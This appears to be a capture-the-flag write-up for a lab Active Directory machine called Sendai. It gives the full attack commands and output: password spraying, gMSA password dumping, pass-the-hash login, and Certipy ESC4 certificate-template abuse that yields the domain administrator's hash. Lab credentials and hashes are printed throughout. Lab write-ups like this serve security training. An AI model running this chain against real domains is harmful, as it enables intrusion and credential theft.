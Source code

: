 
![](Sendai_Cover.png)


```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```



Guest Level Access in the smb share . Lets Explore !

![](Guest_ACcess.png)


![](Shares_Content.png)

We found potential user accounts and a note which states that ``All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.`` Which is a good sign for a penetration-tester. 


Checkin' with common credentials !
```
└─# crackmapexec smb 10.10.127.65 -u user_lst -p '' --continue-on-success

[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Susan.Harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Lisa.Williams:Summer2023 STATUS_PASSWORD_MUST_CHANGE
```

Changing the password ;

```
─# impacket-changepasswd sendai.vl/Lisa.Williams:Summer2023@10.10.127.65
```

![](Password_Change.png)


As we found valid domain user . Now it time to enumerate shares , ADCS , run bloodhound.

Now , we got access to the config share , where there is .sqlconfig file with credentials of the database. But mssql isnt accessible via external network . Gotta wait till we breach the machine !


![](sql.config.png)


```
└─# bloodhound-python --username lisa.williams --password 'p@ssw0rd' --nameserver 10.10.127.65 --domain sendai.vl --domain-controller DC.sendai.vl --dns-tcp --collectionmethod all --zip
```



![](Bloodhound_.png)

Being member of the Support Group we have `Generic All` privilege !

```
Full control of a group allows you to directly modify group membership of the group.
```

Why this attack ? Members of ADMSVC group can `ReadGMSAPassword` od the MGTSVC$ account which can PSRemote to the machine.


![](Bloodhound_Gmsa.png)


Lets attack :
--> Add lisa.williams to the ADMSVC group .

```
└─# net rpc group addmem "ADMSVC" "lisa.williams" -U "sendai.vl"/"lisa.williams"%"p@ssw0rd" -S "dc.sendai.vl"
```

--> Read GMSA Password .

```
└─# python gMSADumper.py -u lisa.williams -p 'p@ssw0rd' -d sendai.vl
```

![](GMSA_CREDS.png)

Cool ! We got mgtsvc$ account hash.

```
└─# evil-winrm -i sendai.vl -u mgtsvc$ -H 582bdf7c5328ca2bf3de975a6ed4b7c7
```

Running  [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) We found creds of clifford.davey.

![](Clifford_Davey.png)

clifford.davey  ::  RFmoB2WplgE_3p 

This guy is CA-OPERATOR !

![](CA-Operator.png)



```
└─# certipy-ad find -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -enabled -dc-ip 10.10.127.65 -stdout -vulnerable
```


![](ESC4_CA.png)


Lets attack the vulnerability and gain access as DA. [ESC4_Attack](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

```
└─# certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```


The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```
└─# certipy-ad req -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -ca 'sendai-DC-CA' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.127.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Cool ! The DC has been pwned !!



As we have mssql credentials , and service running . We can exploit it using the silver tickets.

